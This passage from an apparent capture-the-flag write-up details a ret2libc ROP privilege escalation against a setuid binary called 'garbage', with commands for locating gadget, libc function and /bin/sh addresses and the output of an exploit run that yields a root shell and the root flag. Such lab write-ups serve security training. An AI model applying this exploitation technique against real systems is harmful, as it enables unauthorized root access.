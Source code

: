 Gadget address: `0x40179b`

* Find address of `main` in binary (return to main in order to be able to ROP again without crashing the application):

```bash
$ objdump -D garbage | grep main
  401194:       ff 15 56 2e 00 00       callq  *0x2e56(%rip)        # 403ff0 <__libc_start_main@GLIBC_2.2.5>
0000000000401619 <main>:
  401644:       0f 84 e6 00 00 00       je     401730 <main+0x117>
```

PLT address (procedure linkage table): `0x401619`

* Find addresses of `puts`, `setuid` and `system` in `libc.so.6` (! DIFFERS BETWEEN KALI AND BOX):

```bash
$ readelf -s libc.so.6 | grep " puts@@GLIBC_2.2.5"
   422: 00000000000809c0   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
$ readelf -s libc.so.6 | grep " setuid@@GLIBC_2.2.5"
    23: 00000000000e5970   144 FUNC    WEAK   DEFAULT   13 setuid@@GLIBC_2.2.5
$ readelf -s libc.so.6 | grep " system@@GLIBC_2.2.5"
  1403: 000000000004f440    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
```

puts is at `0x0809c0`
setuid is at `0x0e5970`
system is at `0x04f440`

* Find string `/bin/sh\x00` in `libc.so.6` (! DIFFERS BETWEEN KALI AND BOX):

```bash
$ strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
 1b3e9a /bin/sh
```

`/bin/sh` is at `0x1b3e9a`

* Make `garbage` binary setuid for local testing:

```bash
$ chown root:root garbage
$ chmod 4755 garbage
```

I first tested exploit locally with a user other than root, which, as expected, spawned a root shell. 

Running the exploit against the server gives us a root shell and makes it possible to read the root flag:

```bash
$ python exploit.py
[+] Connecting to 10.10.10.139 on port 22: Done
[*] margo@10.10.10.139:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Opening new channel: '/usr/bin/garbage': Done
[+] Leaked puts@GLIBCL: "\xb2\x18\x00
[*] Switching to interactive mode
# $ id
uid=0(root) gid=1002(margo) groups=1002(margo)
# $ cat /root/root.txt
****************************f997
# $ 
```

